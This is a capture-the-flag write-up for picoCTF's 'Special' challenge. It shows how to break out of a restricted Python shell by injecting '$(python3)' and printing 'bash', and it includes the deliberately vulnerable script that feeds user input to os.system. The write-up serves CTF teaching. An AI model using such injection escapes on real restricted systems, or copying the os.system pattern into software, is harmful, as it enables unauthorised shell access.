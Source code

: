 # Special overview

Highly restricted shell and we need to break it.

## The problem

Try some random input or basic commands then we will find our output got changed in some weird ways.

```bash
Special$ pwd
Pod
sh: 1: Pod: not found
Special$ ls
Is
sh: 1: Is: not found
```

You can't run `sh` or `bash` too.

```bash
Special$ sh
Why go back to an inferior shell?
```

Also, when you press Ctrl+C you will see this.

```bash
Special$ ^CTraceback (most recent call last):
  File "/usr/local/Special.py", line 11, in <module>
    cmd = input("Special$ ")
KeyboardInterrupt
Connection to saturn.picoctf.net closed.
```

This hints us about the we are inside a Python script as shell.

(In post-inspection after breaking the question, inside the `/etc/passwd`, we have our shell defined as `ctf-player:x:1000:1000::/home/ctf-player:/usr/local/Special.py`)

I am lucky to try some injection-like input to break out of this script... (Get the idea from the question VNE)

```bash
Special$ $(python3)  # This is our input
# Yes!!

$(python3)  # This is printed by the script
Python 3.8.10 (default, Nov 14 2022, 12:59:47)
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> ls
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 'ls' is not defined
>>> print("monkaS")
>>> exit()
sh: 1: monkaS: not found
```

So it tries to run `monkaS` - we find a way to jailbreak the script by manipulating the standard output! `print()`

## Solution

```bash
Special$ $(python3)
$(python3)

print("bash")
exit()
ctf-player@challenge:~$
```

We have the old shell now. Get the flag by `grep -Po picoCTF{.*?} /challenge/metadata.json` (Actually it is inside our home directory)

`$ grep -Pro picoCTF{.*?} / 2>/dev/null` if you just try to look for anything when you have a shell.

## More about the script

Here is the script (`Special.py`).

```python
#!/usr/bin/python3

import os
from spellchecker import SpellChecker

spell = SpellChecker()

while True:
  cmd = input("Special$ ")
  rval = 0

  if cmd == 'exit':
    break
  elif 'sh' in cmd:
    print('Why go back to an inferior shell?')
    continue
  elif cmd[0] == '/':
    print('Absolutely not paths like that, please!')
    continue

  # Spellcheck
  spellcheck_cmd = ''
  for word in cmd.split():
    fixed_word = spell.correction(word)
    if fixed_word is None:
      fixed_word = word
    spellcheck_cmd += fixed_word + ' '

  # Capitalize
  fixed_cmd = list(spellcheck_cmd)
  words = spellcheck_cmd.split()
  first_word = words[0]
  first_letter = first_word[0]
  if ord(first_letter) >= 97 and ord(first_letter) <= 122:
    fixed_cmd[0] = chr(ord(spellcheck_cmd[0]) - 0x20)
  fixed_cmd = ''.join(fixed_cmd)

  try:
    print(fixed_cmd)
    os.system(fixed_cmd)
  except:
    print("Bad command!")

```

Now we can read the script after breaking it. Probably the best way is not to use any commands with English letters at all...(Yes, this is possible)

My solution was lucky enough to dodge the bullet of "first letter capitalization" with `$`. And the word `python` is a valid word so it remains unchanged.
